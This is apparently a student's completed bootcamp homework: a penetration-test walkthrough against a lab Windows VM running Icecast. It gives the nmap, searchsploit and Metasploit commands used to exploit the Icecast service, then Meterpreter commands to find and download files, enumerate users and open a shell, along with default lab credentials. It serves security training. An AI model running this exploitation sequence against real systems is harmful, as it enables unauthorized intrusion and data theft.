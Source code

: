 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sS -sV -O 192.168.0.20
 
 ![image](https://user-images.githubusercontent.com/93744925/162008682-fdc94e85-549c-48a5-b371-68737f195ecb.png)


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: ssearchsploit icecast
 
![image](https://user-images.githubusercontent.com/93744925/162008112-e8bc8a93-b1ae-41f8-81e7-2a50f9908585.png)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: msfconsole
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: search icecast

 ![image](https://user-images.githubusercontent.com/93744925/162008024-172f8b7e-f257-4eeb-a25d-f11065715959.png)

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0

 ![image](https://user-images.githubusercontent.com/93744925/162008783-354f38db-c458-4a6b-be61-bca0fcd25c80.png)

5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: set rhost 192.168.0.20
 
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: exploit or run
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: search -f *secretfile*.txt

 ![image](https://user-images.githubusercontent.com/93744925/162008290-9da4d0d9-f396-4369-acf1-b77dc26a2660.png)

 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: search -f *recipe*.txt

 ![image](https://user-images.githubusercontent.com/93744925/162007889-95ae065e-4dce-481a-8f86-0f5f626ee67c.png)

    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: download 'c:\\Users\IEUser\Documents\Drinks.recipe.txt'
 
 ![image](https://user-images.githubusercontent.com/93744925/162007638-c84b6e68-3bd6-4b23-beb1-e64726854ed8.png)

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users
![image](https://user-images.githubusercontent.com/93744925/162007763-97305197-a69b-4f72-bb66-e578b183b364.png)

B. Open a Meterpreter shell. 
 
  > Answer: shell
 
C. Run the command that displays the target's computer system information:

   > Answer: sysinfo
 
![image](https://user-images.githubusercontent.com/93744925/162008901-2c33837c-bfad-440b-b3a0-0de4753f8c55.png)

---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.

